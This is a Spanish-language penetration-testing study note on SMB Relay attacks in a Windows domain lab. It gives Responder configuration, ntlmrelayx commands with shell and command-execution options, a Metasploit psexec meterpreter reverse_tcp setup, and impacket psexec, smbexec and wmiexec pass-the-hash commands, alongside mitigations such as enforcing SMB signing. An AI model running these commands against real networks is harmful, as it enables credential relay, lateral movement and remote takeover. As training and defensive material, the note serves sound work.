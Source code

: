 ### 🔎 ¿Qué es SMB Relay?

SMB Relay es una técnica de ataque donde, en lugar de descifrar los hashes de contraseñas capturados (por ejemplo, con **Responder**), se reenvían directamente a otras máquinas para intentar autenticarse y obtener acceso sin conocer la contraseña.

> [!NOTE]
>En un ataque de **SMB Relay**, es fundamental que el archivo `targets.txt` contenga **más de una IP o destino**. Esto se debe a que, si el equipo desde el cual se origina la autenticación (es decir, la víctima que intenta acceder a un recurso inexistente) **coincide con una de las IPs en el archivo de objetivos**, el relay **fallará automáticamente**. ¿Por qué? Porque `ntlmrelayx` **no puede relayar una autenticación hacia el mismo host que la genera**.
>
>Por lo tanto, en `targets.txt` deben incluirse **todas las IPs posibles** de equipos donde el usuario autenticado **tenga privilegios de administrador local**. Esto maximiza la posibilidad de que el relay sea exitoso y permita ejecutar comandos o establecer una sesión privilegiada en alguna de esas máquinas.



---

### ⚙️ Requisitos para que funcione:

1. **SMB Signing (firma de SMB)** debe estar **deshabilitada** o **no forzada** en el sistema objetivo.
    
2. Las credenciales capturadas deben pertenecer a un **usuario con privilegios de administrador** en la máquina de destino.
    

---

### 🛡️ Mitigación del SMB Relay

1. ✅ **Habilitar y forzar SMB Signing**
    
    - En GPO o registro de Windows, asegúrate de que la firma SMB esté **habilitada y requerida**.
        
    - Ruta GPO:  
        `Configuración del equipo > Configuración de Windows > Configuración de seguridad > Directivas locales > Opciones de seguridad`  
        → Activar:  
        **"Microsoft network client: Digitally sign communications (always)"**  
        **"Microsoft network server: Digitally sign communications (always)"**
        
2. ✅ **Deshabilitar protocolos inseguros como SMBv1**
    
    - Usa solo SMBv2 o SMBv3.
        
3. ✅ **Segmentar la red**
    
    - Limitar quién puede comunicarse con quién, especialmente entre estaciones de trabajo.
        
4. ✅ **Control de acceso estricto**
    
    - No dar privilegios de administrador innecesarios.
        

---

### 🧰 Herramientas comunes usadas para SMB Relay

- **Responder** → Captura los hashes.
    
- **Impacket (ntlmrelayx.py)** → Reenvía los hashes a otros sistemas para autenticarse.
    
- **mitm6** → En redes con IPv6, puede combinarse con SMB Relay para explotar entornos sin mucha configuración.



## Lanzamiento de SMB Relay Attack

### Identificación

Para identificar los equipos que no tienen la firma de SMB habilitada, podemos usar lo siguiente

```bash
nmap --script=smb2-security-mode.nse -p 445 <IP>
```

![[Pasted image 20250425154731.png]]

### Configuración del Responder


Este archivo se encuentra en **/etc/responder/Responder.conf**

> [!NOTE]
> Normalmente el DC, tiene por defecto la firma habilitada y requerida.



Tenemos que poner:
+ SMB = off
+ HTTP = off

![[Pasted image 20250425154909.png]]



Despues ejecutaremos el responder para SMB Relay

```bash
sudo responder -I eth0 -dwP
```


### ntlmrelayx.py

Esta herramienta recibe los hashes NTLM capturados y los **envía a un objetivo específico**.

📌 Esto:

- Escucha conexiones entrantes.
    
- Cuando un hash NTLM llega, lo reenvía al servidor objetivo.
    
- Si ese hash es válido y pertenece a un usuario con permisos, obtienes acceso.
    

🔐 Para que funcione:

- El objetivo **NO debe tener SMB signing forzado**.
    
- El usuario debe ser **admin local o tener permisos válidos**.

```bash
impacket-ntlmrelayx -tf targets.txt -smb2support
```


Si añadimos **-i** al comando, podremos obtener una shell directamente en lugar de la SAM de usuario local.

Para despues conectarnos despues de poner el -i , tendremos que conectarnos a la victima

![[Pasted image 20250425190101.png]]

```bash
nc 127.0.0.1 11000
```


Si añadimos el parámetro **-c "whoami"** este comando directamente se ejecutara en la Víctima.

![[Pasted image 20250425190148.png]]

Despues, esperamos a que un usuario acceda a un lugar no existente, despues no saldrán los Hashes SAM de las cuentas de administrador local de los equipos que estan en el targets.txt

![[Pasted image 20250425185857.png]]




## Shell Access

### msfconsole

```bash
msfconsole
```

Seleccionamos el exploit que utiliza psexec

```bash
use exploit/windows/smb/psexec
```

Metemos el payload

```bash
set payload windows/x64/meterpreter/reverse_tcp
```

Metemos las ips de las victimas y el dominio al que pertenecen

```bash
set rhosts 192.168.0.226
```

```bash
set smbdomain MARVEL.local
```

Añadimos al usuario de smb y su password

```bash
set smbuser Administrador
```

```bash
set smbpass password
```



### psexec

esta opcion no te da un meterpretes o una stagged shell pero va bastante bien

```bash
impacket-psexec MARVEL/fcastle:'Mypassword1234!'@192.168.0.225
```


Tambien le podemos pasar los hashes SAM

```bash
impacket-psexec administrador@192.168.0.225 -hashes aad3b435b51404eeaad3b435b51404ee:5b4c6335673a75f13ed948e848f00840
```
 
Tambien tenemos distintas herramientas a parte de psexec, como **smbexec** o **wmiexec**.

```bash
impacket-smbexec administrador@192.168.0.225 -hashes aad3b435b51404eeaad3b435b51404ee:5b4c6335673a75f13ed948e848f00840
```

```bash
impacket-wmiexec administrador@192.168.0.225 -hashes aad3b435b51404eeaad3b435b51404ee:5b4c6335673a75f13ed948e848f00840
```



# 🛡️ Estrategias de mitigación (Mitigation Strategies)

### 🔹 1. Habilitar la firma SMB en todos los dispositivos

- **Pro:** Detiene completamente el ataque.
    
- **Con:** Puede afectar el rendimiento en la copia de archivos.
    

### 🔹 2. Deshabilitar la autenticación NTLM en la red

- **Pro:** Detiene completamente el ataque.
    
- **Con:** Si Kerberos falla, Windows volverá a usar NTLM.
    

### 🔹 3. Tiering de cuentas (Account tiering)

- **Pro:** Limita a los administradores de dominio a tareas específicas (ej: solo conectarse a servidores donde se necesiten permisos elevados).
    
- **Con:** Puede ser difícil aplicar y mantener esta política.
    

### 🔹 4. Restricción de administradores locales

- **Pro:** Previene gran parte del movimiento lateral.
    
- **Con:** Puede aumentar el número de tickets en el soporte técnico.
